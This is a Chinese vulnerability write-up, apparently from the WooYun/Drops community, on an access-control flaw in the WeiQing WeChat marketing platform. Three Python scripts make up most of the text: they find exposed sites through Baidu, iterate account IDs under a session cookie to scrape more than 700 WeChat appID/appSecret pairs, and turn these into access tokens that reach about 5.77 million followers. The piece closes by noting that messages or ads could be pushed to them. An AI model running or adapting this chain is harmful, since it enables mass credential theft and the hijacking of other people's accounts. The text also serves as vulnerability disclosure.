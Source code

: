 # 是谁让你我如此近距离（论第三方微信营销平台的安全隐患）

0x00 简介
=======

* * *

开发微信第三方营销平台的人可谓是靠着微信官方开发文档发家的人，他们把开发文档变成产品，变成普通人一看就明白的东西，好多搞营销的不懂技术，好多做技术的不懂营销，他们可谓在技术和营销之前有效的搭了一座桥，让不懂技术的营销者可以通过第三方平台方便的接入微信。

微信本身是安全的，但是第三方平台的安全却没的保证，这篇文章就是想说明，在使用第三方平台便利性的同时埋下的安全隐患

0x01 从一个被忽略的漏洞说起
================

* * *

wooyun漏洞编号：wooyun-2016-0184202  
[WooYun: 微擎最新版可越权操作别人公众号](http://drops.com:8000/%3Ca%20target=)">[WooYun: 微擎最新版可越权操作别人公众号](http://www.wooyun.org/bugs/wooyun-2016-0184202)

很不解如此影响深远的漏洞，为什么会被忽略，是对客户的不负责任，还是对漏洞本身的不了解

接下来就从这个被忽略的漏洞，挖出其背后成千上万受影响的用户

0x02 挖掘过程
=========

* * *

1.  百度搜索使用微擎系统的链接
2.  注册并登录受影响的系统
3.  批量获取受影响的系统中的微信appID和appSecret
4.  通过调用微信开发者接口获取相应appID的用户列表
5.  向这些用户发送hello world

**百度搜索使用微擎系统的链接**

```
#!/usr/bin/env python
#coding:utf-8
import requests
import re
from lxml import etree
import sys
reload(sys)
sys.setdefaultencoding('utf-8')
def getSearch(url):
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
    content = getContent(url, headers)
    selector = etree.HTML(content)
    selectUrl = selector.xpath('//div[@class="f13"]/a[1]/@href')
    urls.extend(selectUrl)
def getSearchUrl(urls):
    for url in urls:
        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
        header = "Location"
        content = getRespHeader(url, headers, header)
        selectUrl.append(content)
def getContent(url, headers):
    resp = requests.get(url, headers=headers)
    return resp.text
def getRespHeader(url, headers, header):
    resp = requests.get(url, headers=headers, allow_redirects=False)
    return resp.headers.get(header)
if __name__ == '__main__':
    urls = []
    selectUrl = []
    for i in [0, 10, 20, 30, 40, 50, 60]:
    url = "http://www.baidu.com/s?wd=inurl%%3Aweb%%2Findex.php%%3Fc%%3Duser%%26a%%3Dlogin%%26&pn=%d&ie=utf-8" %i
    getSearch(url)
    getSearchUrl(urls)
    print selectUrl

```

结果搜到63条链接：

![p1](http://drops.javaweb.org/uploads/images/3c5d8bcadc6c188fc4222aef0efc9777ccd8a26a.jpg)

**注册并登录受影响的系统**

本来打算写个脚本批量注册然后出appid和key的，但由于有验证码，又因为本地验证码程序没有跑起来，而且也就60多个网站，于是乎就手工了一下，然后把拿appid和appSecret的过程写了个脚本

**批量获取受影响的系统中的微信appID和appSecret**

```
#!/usr/bin/env python
#coding:utf-8
import requests
from lxml import etree
import sys
reload(sys)
sys.setdefaultencoding('utf-8')
header = {"cookie":"7ba5___session=eyJ1aWQiOiIxMTE1IiwibGFzdHZpc2l0IjoiMTQ1ODQ3NTc1MyIsImxhc3RpcCI6IjIxOC4xMDguMTI4LjEwMSIsImhhc2giOiI4YzcyMjFjOTE4Y2U2NjY1ZTdiMTQxYWJlYmRlZTcxOSJ9","User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
def getcontent(url,header):
    resp = requests.get(url, headers=header)
    return resp.text
def getkey(html):
    global count
    rest = []
    selector = etree.HTML(html)
    weixinAppId = selector.xpath('//input[@name="key"]/@value')
    weixinAppSecret = selector.xpath('//input[@name="secret"]/@value')
    weixinAppName = selector.xpath('//input[@name="subname"]/@value')
    if weixinAppId[0] != '' and weixinAppSecret[0] != '' and weixinAppId[0].find('wx') == 0:
        print weixinAppName[0]
    rest.append(weixinAppName[0])
    rest.append(weixinAppId[0])
    rest.append(weixinAppSecret[0])
    str_rest = str(rest).replace('u\'','\'')
    str_rest = str_rest.decode("unicode-escape")
    with open('result.txt', 'a') as fs:
        fs.write(str_rest + '\n')
if __name__ == '__main__':
    for i in range(1, 1056):
        url = "http://wx.xxx.cn/web/index.php?c=account&a=post&uniacid=84&acid=%d" %i
        print url
    html = getcontent(url, header)
    getkey(html)

```

待每个链接都尝试之后，一共捕获到700多个微信appid和secret

![p2](http://drops.javaweb.org/uploads/images/7a003f97f3275a4196fedd852c51b3cb35f69a63.jpg)

**通过调用微信开发者接口获取相应appID的用户列表**

这里通过脚本获取一下这么多微信appid一共涉及多少用户

```
# coding:utf-8
import requests
import ast
count = 0

def getCount(url):
    global count
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
    resp = requests.get(url, headers=headers)
    con = ast.literal_eval(resp.text)
    if type(con) == dict and "total" in con:
        count += int(con["total"])

def getAccesstoken(content):
    con = ast.literal_eval(content)
    if type(con) == dict and "access_token" in con:
        url = "https://api.weixin.qq.com/cgi-bin/user/get?access_token=%s" % con["access_token"]
        getCount(url)

def getContent(line):
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
    wxappid = line[1]
    wxsecret = line[2]
    url = "https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=%s&secret=%s" % (wxappid, wxsecret)
    resp = requests.get(url, headers=headers)
    getAccesstoken(resp.text)

if __name__ == '__main__':
    with open('result.txt', 'r') as fs:
        for line in fs.readlines():
            line = line.replace('\r', '').replace('\n', '')
            getContent(eval(line))
    print count

```

跑完脚本发现一共涉及到577万用户

![p3](http://drops.javaweb.org/uploads/images/d98db4d8e533859149f88d747aca76a73a81c6fa.jpg)

0x03 结尾
=======

* * *

这570多万用户重复率很低，可以向这570万用户推送广告，可以向这570万用户发送消息，可以向这500万用户发送一句"你我如此近距离，你却不知道我是谁"。